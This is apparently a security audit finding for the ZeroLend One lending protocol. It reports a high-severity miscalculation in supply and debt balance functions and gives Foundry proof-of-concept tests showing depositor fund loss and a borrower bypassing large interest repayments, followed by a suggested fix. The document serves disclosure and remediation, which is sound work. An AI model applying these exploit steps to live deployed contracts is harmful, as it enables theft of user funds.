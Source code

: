 Dancing Cherry Yak

High

# Incorrect Supply and Debt Balance Calculation in PositionBalanceConfiguration

### Summary

The logic implemented in the `PositionBalanceConfiguration::getSupplyBalance`  and `PositionBalanceConfiguration::getDebtBalance` functions leads to an incorrect calculation.

### Root Cause

https://github.com/sherlock-audit/2024-06-new-scope/blob/main/zerolend-one/contracts/core/pool/configuration/PositionBalanceConfiguration.sol#L126C3-L130C1

  In this function,  we calculate 

```solidity
   function getSupplyBalance(DataTypes.PositionBalance storage self, uint256 index) public view returns (uint256 supply) {
    uint256 increase = self.supplyShares.rayMul(index) - self.supplyShares.rayMul(self.lastSupplyLiquidtyIndex);
    return self.supplyShares + increase;
  }
```

The same logic is used to calculate user debt

https://github.com/sherlock-audit/2024-06-new-scope/blob/main/zerolend-one/contracts/core/pool/configuration/PositionBalanceConfiguration.sol#L137C3-L140C4

### PoC

run in  `contracts/test/forge/core/vaults/ERC4626Test.sol`

```solidity

 function mintShares(uint256 assets, address depositor) public returns(uint256 shares) {
    loanToken.mint(depositor, assets); 
    vm.startPrank(depositor);
    loanToken.approve(address(vault), assets);
    shares = vault.deposit(assets, depositor);
    vm.stopPrank();
  }

  function testMiscalculationOfSupplyBalance() public {
    
    address alice = vm.addr(100);
    mintShares(9 ether, alice);
    
    address bob = vm.addr(101);
    mintShares(9 ether, bob);

    address tom = vm.addr(102);
    collateralToken.mint(tom, 18 ether);
    vm.startPrank(tom);
    collateralToken.approve(address(allMarkets[0]), 18 ether);
    allMarkets[0].supplySimple(address(collateralToken), tom, 18 ether, 1);
    allMarkets[0].borrowSimple(address(loanToken), tom, 12 ether , 1);

    // We advance the time by 10,000 days to accumulate more funds in the pool, the goal is to make new deposit in vault lead to 0 shares.   
   // even with 10 days in advance we have the same impact on the calculation
    vm.warp(block.timestamp + 10_000 days);
    loanToken.mint(tom, 460 ether);
    loanToken.approve(address(allMarkets[0]), UINT256_MAX);
    allMarkets[0].repaySimple(address(loanToken), UINT256_MAX, 1);
    vm.stopPrank();

    // total asset of vault
    console.log("Total asset of vault in market after repayement : ",vault.totalAssets());
    

    vm.prank(bob);
    // bob redeem his share and correctly get his deposit + interest
    vault.redeem(9 ether, bob, bob);
    console.log("Bob balance after redeem his shares   : ", loanToken.balanceOf(bob));

    // after bob redeem his share, getSupplyBalance return 9 ether
    console.log("total assets of vault in market after bob redeem : ", vault.totalAssets());


    vm.prank(alice);
    // alice should get at least the same amount as bob but she actually get 9 ether
    vault.redeem(9 ether, alice, alice);
    console.log("Alice balance after redeem his shares : ", loanToken.balanceOf(alice)); 

    // since last totalAssets is 9 ether if alice redeem 9 ether new total balance would be 0
    // but actually it's more than 5 ether
    assertGt(vault.totalAssets(), 5 ether);
    console.log("total assets of vault in market after alice redeem : ", vault.totalAssets());


    //users who deposit less than 6 ether in vault lose all they fund 
    // total asset > 5 ether, while total shares is 0 
    address user2 = vm.addr(105);
    mintShares(5 ether, user2);
    assertEq(vault.balanceOf(user2), 0);
    assertEq(vault.totalSupply(), 0);
    
    address user1 = vm.addr(104);
    mintShares(1 ether, user1);
    assertEq(vault.balanceOf(user1), 0);
    assertEq(vault.totalSupply(), 0);
    
    console.log("total assets in vault : ", vault.totalAssets());

  }


   function testBypassDebtInterest() public {
    
    address alice = vm.addr(100);
    mintShares(9 ether, alice);
    
    address bob = vm.addr(101);
    mintShares(9 ether, bob);

    address tom = vm.addr(102);
    collateralToken.mint(tom, 18 ether);
    vm.startPrank(tom);
    collateralToken.approve(address(allMarkets[0]), 18 ether);
    allMarkets[0].supplySimple(address(collateralToken), tom, 18 ether, 1);
    allMarkets[0].borrowSimple(address(loanToken), tom, 12 ether , 1);

    // We advance the time by 10,000 days to accumulate more funds in the pool


    vm.warp(block.timestamp + 10_000 days);
    loanToken.mint(tom, 1 ether);
    loanToken.approve(address(allMarkets[0]), UINT256_MAX);
    vm.expectRevert();
    // this won't work since tom need at least 450 ether to repay interest
    allMarkets[0].repaySimple(address(loanToken), UINT256_MAX, 1);
    
    // repayment should work
    allMarkets[0].repaySimple(address(loanToken), 1 ether, 1);
    allMarkets[0].repaySimple(address(loanToken), UINT256_MAX, 1);
    // we bypass at least 400 ether in interest
    console.log("Total balance of  after repayement : ",loanToken.balanceOf(tom));
    vm.stopPrank();

  }
```

### Output

![Screenshot from 2024-09-06 18-49-52](https://github.com/user-attachments/assets/3ab6e015-ff42-4520-a606-96b9414ad443)



### Impact

This issue compromises the accuracy of supply and debt balance calculations, putting the entire protocol at risk.


* The incorrect logic in the `getSupplyBalance` and `getDebtBalance` functions results in miscalculating user balances, which directly affects vault operations.

* As demonstrated, users who deposit small amounts can lose all their funds  (vault totalShares is 0 while a large amount of asset is return by pool). 

* Vault user won't be able to claim their revenue 

* In the second test (`testBypassDebtInterest`), the faulty calculations allow users to bypass substantial interest repayments.

### Mitigation

Replace the calculation in the `getSupplyBalance` function with a simplified formula

```solidity
function getSupplyBalance(DataTypes.PositionBalance storage self, uint256 index) public view returns (uint256 supply) {
    return self.supplyShares.rayMul(index);
  }
```
Comment out the assertion and rerun the PoC.

![Screenshot from 2024-09-06 19-03-25](https://github.com/user-attachments/assets/94517bbd-071d-4acd-88de-f7e1518902cc)

The report also highlights a donation attack stemming from vault balance manipulation within the pool. To address this, we can implement a check that reverts deposits into the vault if they result in 0 shares.

As we can see there is still 4 assets  and 0 shares in vault, that impact the shares calculation

* user2 deposit  5 ether and get 10**18 in shares
* user1 deposit 1 ether and get  2 * 10**17 shares


